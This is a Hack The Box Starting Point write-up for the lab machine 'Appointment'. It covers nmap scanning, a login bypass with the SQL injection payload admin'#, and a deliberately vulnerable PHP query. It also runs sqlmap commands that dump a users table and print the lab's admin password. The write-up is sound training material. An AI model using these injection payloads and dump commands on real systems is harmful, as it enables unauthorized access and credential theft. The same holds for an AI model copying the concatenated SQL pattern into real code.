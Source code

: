 ```yaml
---
title: "[Starting Point] Tier 1: Appointment"
tags:
  - Very Easy
  - Linux
  - SQLi
  - MariaDB
---
```


|  | Difficulty |  |  IP Address   |  | Room Link |  |
|--| :--------: |--|:------------: |--| :--------:|--|
|  |  Very Easy |  | 10.129.78.154 |  | [Tier 1: Appointment](https://app.hackthebox.com/starting-point) |  |

---

### [ What does the acronym SQL stand for? ]

Structured Query Language

---

### [ What is one of the most common type of SQL vulnerabilities? ]

SQL Injection

---

### [ What does PII stand for? ]

Personally Identifiable Information

---

### [ What does the OWASP Top 10 list name the classification for this vulnerability? ]

Based on the [OWASP page](https://owasp.org/www-project-top-ten/), the classification is: **A03:2021-Injection**

---

### [ What service and version are running on port 80 of the target? ]

Let's run a basic nmap scan on the target machine.

```
sudo nmap -sC -sV -vv -T4 10.129.78.154
```

![screenshot1](../assets/images/appointment/screenshot1.png)

From the results, we can see that the service and version running on port 80 is **Apache httpd 2.4.38 ((Debian))**

---

### [ What is the standard port used for the HTTPS protocol? ]

443

---

### [ What is one luck-based method of exploiting login pages? ]

Brute-forcing

---

### [ What is a folder called in web-application terminology? ]

Directory

---

### [ What response code is given for "Not Found" errors? ]

Response code: **404**

---

### [ What switch do we use with Gobuster to specify we're looking to discover directories, and not subdomains? ]

`dir`

---

### [ What symbol do we use to comment out parts of the code? ]

`#`

---

### [ Submit root flag ]

Let's visit `http://10.129.78.154/`:

![screenshot2](../assets/images/appointment/screenshot2.png)

We are greeted with a login page.

I first tried default credentials like **admin:admin**. Unfortunately, none of those credentials worked.

As the room suggests, we most likely have to use SQL injection in order to log into an account. 

One of the most common methods of SQLi is to use the comment characters, `#` or `--` to comment out the rest of the query. This will work if the server simply concatenates the user input for username and password directly into the query that is sent over to the database.

Take the following PHP code for eg:

```php
$username=$_POST['username']; # User-specified username.
$password=$_POST['password']; #User-specified password.

$sql="SELECT * FROM users WHERE username='$username' AND password='$password'";
```

If we input username=`test` and password=`test`, then the SQL query that is sent to the DB will be:

```
SELECT * FROM users WHERE username='test' AND password='test'
```

However, what if we input username=`admin'#` and a random password? The SQL query becomes:

```
SELECT * FROM users WHERE username='admin'#' AND password='test'
```

Because of the `#` character, whatever comes after that will become a comment and will not be included in the SQL query. This means that `' AND password='test'` becomes a comment in the PHP code and the SQL query that is sent will be:

```
SELECT * FROM users WHERE username='admin'
```

This query will succeed if there is a user called '**admin**', and we would be able to log into their account!

Let's try using `admin'#` as the username on the website:

![screenshot3](../assets/images/appointment/screenshot3.png)

It works! We got the root flag.

---

### [ BONUS: USING SQLMAP TO ENUMERATE ADMIN CREDENTIALS ]

If we want to go a bit overkill, we can use `sqlmap` to obtain the admin credentials. Let's first see if the login form on the website is susceptible to SQLi and if so, enumerate the databases present on the DB.

```
sqlmap -u "http://10.129.78.154/" --forms --risk=3 --level=5 --dbs --batch 
```

* *--forms will automatically detect forms that are on the host.*

* *--dbs enumerates databases present on the DB server.*

* *--batch automatically answers prompts by sqlmap during runtime.*

![screenshot4](../assets/images/appointment/screenshot4.png)

Great, `sqlmap` managed to find a few injection points with the **username** field. From the results, we can see that there are 2 dbs: **appdb** and **information_schema**.

Let's now update our sqlmap command to enumerate the tables in the **appdb** db:

```
sqlmap -u "http://10.129.78.154/" --forms --risk=3 --level=5 -D appdb --tables --batch
```

*(We now use the -D option to specify the target db and the --tables to enumerate tables within that target db)*

![screenshot5](../assets/images/appointment/screenshot5.png)

There is a table called **users**.

Finally, let's update our sqlmap command once more to dump out all the data in that table:

```
sqlmap -u "http://10.129.78.154/" --forms --risk=3 --level=5 -D appdb -T users --dump --batch
```

*(This time, we use -T to specify the table and --dump to dump out all table contents)*

![screenshot1](../assets/images/appointment/screenshot6.png)

And we get the admin credentials:

> admin : 328ufsdhjfu2hfnjsekh3rihjfcn23KDFmfesd239"23m^jdf
